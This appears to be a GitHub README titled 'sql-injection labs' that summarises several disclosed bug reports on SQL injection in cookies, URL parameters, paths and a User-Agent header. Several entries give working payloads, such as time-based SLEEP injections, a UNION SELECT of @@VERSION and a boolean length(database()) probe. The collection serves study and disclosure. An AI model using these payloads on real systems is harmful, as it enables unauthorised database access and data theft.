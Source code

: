 
##  sql-injection labs 

![sql](https://github.com/user-attachments/assets/2a6f7be0-9e42-4dcc-a1f7-c83e7adf9aec)

## report #761304
It seams one of the parameters in the cookies is vulnerable to SQL injection. Below requests has the lang parameter in cookies. If you inject one quote mark like '. You get SQL error with the syntax. By injecting a second you have the error removed.

## report #1042746
 SQLI Injection Time Based on The parameter $_GET['acctid'] is vulnerable. <br>
 GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(15) HTTP/1.1

## report #1044716
SQL Injection in request is used to create sales lead with the data the sales lead id is produced <br>
PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc" AND (length(database())) = "11 --+- HTTP/1.1


## report #1046084
SQL Injection Union Based on /commenthistory/$YourSiteId <br>
you can inject by this payload <br>
    /commenthistory/$YourSiteId%20union%20select%201,2,@@VERSION%23

## report #297478
 SQL injection vulnerability in the website that affects the endpoint can be exploited via the User-Agent HTTP header. <br>
 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR'


## report #2051931
The server does not perform sanitization on user input, allowing an attacker to inject arbitrary SQL commands into a query. <br>
/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--

## report #300176
this website is vulnerable to SQL injection in two cookies with different techniques.
1 with time based and the other is basic sql injection

## report #419017
the site is vulnerable to SQL injection in the maxlength attribute of the SSN input field which we can add sql injection payload in it

## report #838855
this site have Blind SQL Injection by Abusing LocalParams (res_id) in /php/geto2banner <br>
 we are able to Exploit it to extract data from your DB
